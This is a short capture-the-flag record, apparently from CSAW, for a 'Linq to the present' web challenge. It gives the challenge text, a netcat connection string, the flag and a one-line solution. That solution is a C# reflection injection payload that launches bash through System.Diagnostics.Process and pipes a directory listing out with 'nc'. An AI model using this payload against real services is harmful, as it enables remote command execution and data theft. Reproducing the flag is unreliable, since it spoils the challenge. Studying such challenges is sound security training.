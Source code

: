 # Linq to the present
## Author

## Points
100
## Category
Web
## Description
Yo bro I found Trump's and Hilary's private chat server. I'm sure there is more dirt on the server.

*Hint: Just because you have an exe, doesn't mean that it is running on a Windows server.*

`nc web.chal.csaw.io 1340`
## Flag
`flag{i_need_a_better_perscription_I_cant_seed_sharp}`
## Solution
`"".GetType().Assembly.GetType("System.AppDomain").GetMethods()[18].Invoke("".GetType().Assembly.GetType("System.AppDomain").GetProperty("CurrentDomain").GetValue(null), "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089;System.Diagnostics.Process".Split(";".ToCharArray())).GetType().GetMethods()[80].Invoke(null, "bash;-c 'ls | nc 0 9001'".Split(";".ToCharArray()))`